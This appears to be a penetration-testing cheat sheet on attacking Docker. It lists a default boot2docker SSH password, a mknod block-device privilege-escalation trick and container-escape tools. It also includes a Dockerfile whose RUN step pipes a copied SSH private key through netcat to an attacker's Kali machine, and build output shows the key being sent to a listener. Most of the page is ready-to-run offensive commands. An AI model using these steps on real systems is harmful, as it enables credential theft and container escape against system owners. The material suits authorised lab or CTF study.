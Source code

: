## boot2docker&#x20;

<pre class="language-sh"><code class="lang-sh">https://github.com/ailispaw/boot2docker-xhyve
<strong>ssh docker@$GATEWAY_IP # password is tcuser
</strong></code></pre>

## Privilege escalation

```sh
https://www.hackingarticles.in/docker-privilege-escalation/
https://flast101.github.io/docker-privesc/

# Sharing block device - privesc when there are docker containers
lsblk # then note MAJ:MIN value from the lvm type, for example it might be 253
mknod /dev/rootfs b $MAJ 0
mknod /dev/rootfs b 253 0
```

## Automatic enumeration & escape

[linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): It can also **enumerate containers**\
[CDK](https://github.com/cdk-team/CDK#installationdelivery): This tool is pretty **useful to enumerate the container you are into even try to escape automatically**\
[amicontained](https://github.com/genuinetools/amicontained): Useful tool to get the privileges the container has in order to find ways to escape from it\
[deepce](https://github.com/stealthcopter/deepce): Tool to enumerate and escape from containers\
[grype](https://github.com/anchore/grype): Get the CVEs contained in the software installed in the image

## docker build Dockerfile

If we can list images or import **alpine** image.

We have to build the container using a **Dockerfile**. That file should be placed where we can run commands or get files like SSH key available in /opt. We place Dockerfile In the **/opt** folder, because we need that context to use files and retrieve that SSH key from that current directory, let's create a **Dockerfile** with the following contents:

```bash
blablah@dep:/opt$ cat Dockerfile 
FROM alpine
COPY id_rsa.bak /tmp/id_rsa.bak
RUN cat /tmp/id_rsa.bak | nc $KALI_IP 80
```

This Dockerfile will allow us to build a new image based off of the `alpine` image. When we build the new image, the **id\_rsa.bak** file will be copied into it and then the contents will be piped out to a listener waiting on our kali machine.

We build the container with the file Dockerfile and set a Netcat connection to catch the SSH key:

```bash
user@hostname:/opt$ sudo docker build -f Dockerfile .
Sending build context to Docker daemon  7.168kB
Step 1/3 : FROM alpine
 ---> d4ff818577bc
Step 2/3 : COPY id_rsa.bak /tmp/id_rsa.bak
 ---> 579dd0db7197
Step 3/3 : RUN cat /tmp/id_rsa.bak | nc 192.168.49.100 80
 ---> Running in 9b48aef85006
Removing intermediate container 9b48aef85006
 ---> 0f7b4e57448a
Successfully built 0f7b4e57448a

└─$ nc -lvnp 80
```